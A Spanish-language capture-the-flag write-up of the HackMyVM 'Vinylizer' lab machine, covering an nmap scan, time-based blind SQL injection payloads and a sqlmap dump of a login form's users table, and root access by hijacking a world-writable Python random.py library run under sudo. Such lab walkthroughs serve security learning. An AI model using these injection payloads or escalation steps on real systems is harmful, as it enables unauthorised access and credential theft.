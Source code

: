 ```yaml
---
layout: post
title: HackMyVM - Vinylizer
author: c4rta
date: 2024-02-02
tags: [HackMyVM, SQLi, Python Library Hijacking]
image: /assets/img/vinylizer/vinylizer.png
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.90
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

### Puerto 80 (HTTP)

(si hacemos fuzzing de directorios y archivos no encontraremos nada interesante)

Una de las cosas que nos llaman la atencion es un panel de login, donde al ingresar cualquier usuario, nos dara el mensaje "User not found"

![](/assets/img/vinylizer/1.png)

Si interceptamos la peticion con burpsuite nos podemos dar cuenta que existe el parametro "login"

![](/assets/img/vinylizer/2.png)

Podriamos pensar que al darle "login=true" vamos a iniciar sesion pero no es posible, asi que podemos empezar a probar con los parametros, si agremos una comilla simple despues de **username** vemos como nos arroja un HTTP 500

```bash
username=hola'&password=holi&login=
```
```ruby
HTTP/1.0 500 Internal Server Error
Date: Fri, 02 Feb 2024 22:40:00 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8
```
Por lo cual podriamos interntar probar SQLi

## Explotacion (SQLi Time-based blind)

Despues de probar un rato, me doy cuenta que existe una vulnerabilidad SQLi a ciegas basada en tiempo. Para corroborar esto podemos ejecutar lo siguiente en el parametro **username**

```ruby
username=hola'+or+sleep(5)--+-&password=holi&login=
```
Nos podemos dar cuenta que es vulnerable por que el servidor tarda 5 segundos en darnos una respuesta, en este punto podemos empezar a enumerar el nombre de la base de datos haciendo uso de este payload:

```ruby
OR IF(SUBSTR(database(),1,1)="v", sleep(5),1)-- -
```

```ruby
username=hola'+OR+IF(SUBSTR(database(),1,1)%3d"v",+sleep(5),1)--+-&password=holi&login=
```

Basicamente lo que hace es extrer 1 letra desde la primera posicion del nombre de la base de datos, lo que se traduciria como la primera letra del nombre de la base de datos, luego lo compara con la letra "v", si esta comparacion devuelve TRUE, entonces tardara 5 segundos en darnos una respuesta, en este caso si tardara por que es la primera letra, y asi debemos der hacerlo letra por letra, para no hacerlo tan largo usare sqlmap. De todas formas si quieres saber como explotar un SQLi time-based manualmente puedes leer este post en mi blog: [https://ic4rta.github.io/2023/03/28/sqli/](https://ic4rta.github.io/2023/03/28/sqli/)

Usando sqlmap encontraremos la base de datos vinyl_marketplace y la tabla usuarios, asi que usando lo siguiente podemos mostrar los datos:

```bash
sqlmap -u "http://192.168.1.90/login.php" --data="username=c4rta&password=c4rta&login=" --batch --dump -T users -D vinyl_marketplace
```
Y encontraremos las credenciales del usuario shopadmin:

usr: shopadmin
pass: 9432522ed1a8fca612b11c3980a031f6 (esta en md5 asi que se debe de crackear)

Y ya tendriamos la flag de user

## Escalada

Si vemos los permisos a nivel de sudoers veremos que podemos ejecutar el script vinylizer

```bash
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py
```

Al ver el script vemos que se estan importando las librerias json y random, por redomendacion, les sugiero que si esta explotando un script de python, vean si las librerias que se estan importanto tienen permisos de escritura

Para buscar archivos con escritura podemos usar este comando:

```bash
find / -type f -writable 2>/dev/null
```

Y veremos que tenemos permisos 777 en **/usr/lib/python3.10/random.py**

```bash
-rwxrwxrwx 1 root root 33221 Nov 20 15:14 /usr/lib/python3.10/random.py
```

### Python Library Hijacking (RW permissions)

Un escenario de python library hijacking, es que se este importando una libreria la cual tiene permisos de escritura, asi que nosotros podemos modificar su contenido para que relice una accion arbitraria, si quieres saber de otros escenarios puedes leer: [https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

Ahora modificaremos el codigo de la libreria para ejecutar **/bin/bash -p**

![](/assets/img/vinylizer/3.png)

(este codigo yo lo puse antes de las otras declaraciones de **import os**, en mi caso lo puse al principio)

Y ya somos root

![](/assets/img/vinylizer/4.png)